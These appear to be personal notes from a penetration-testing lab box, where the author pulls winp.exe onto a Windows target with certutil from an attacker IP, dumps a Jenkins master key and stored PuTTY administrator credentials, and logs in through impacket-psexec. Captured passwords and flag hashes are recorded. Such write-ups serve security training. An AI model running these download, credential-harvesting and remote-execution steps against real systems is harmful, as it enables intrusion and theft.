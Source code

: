 download
```powershell
certutil.exe -urlcache -f http://192.168.49.140/winp.exe winp.exe
```

Downloaded
```
./winp.exe
```
It's running and now going through output for interesting info
	SEImpersonate is Enabled
	nate hashes
	
	File: C:\Program Files (x86)\Jenkins\secrets\master.key
	67b1ccfee9db527895dfd544275a11979e97553db01ed6656b5f7ef0b80eb5ce779458b14a57133302f6bcbe5d8827a22e6ea4edc7d0c22598e71151375bdca5d450ca97bf0b13e752221959db86dee70cd8f35c94c638f211c9aa1e32806186c7dda621b7b8e4ee2c6e750effbc23d1f94e6b72d1cee0751e780e871af6c366
	
	����������͹ Putty Sessions
	    RegKey Name: UserName
	    RegKey Value: administrator
	   =================================================================================================
	
	    RegKey Name: Password
	    RegKey Value: Black3Glasses6Now9

Try for admin password:
`Black3Glasses6Now9`

```
impacket-psexec Administrator@192.168.140.101
```
![[Pasted image 20231219135549.png]]

I'm in ms01 as admin


Get local first
![[Pasted image 20231219145059.png]]

6283cfaf6f56f42150d4fd06728a4d30


Now to go to desktop to get the proof
```
type proof.txt
```
	34e7edc043a9bed6dd80864dc6093d8a

![[Pasted image 20231219135916.png]]

Checking system for passwords
![[Pasted image 20231219140205.png]]


Gathering passwords in passwords file
	x927e98nkj!dgrbgrSAS
	Hard4Core8!
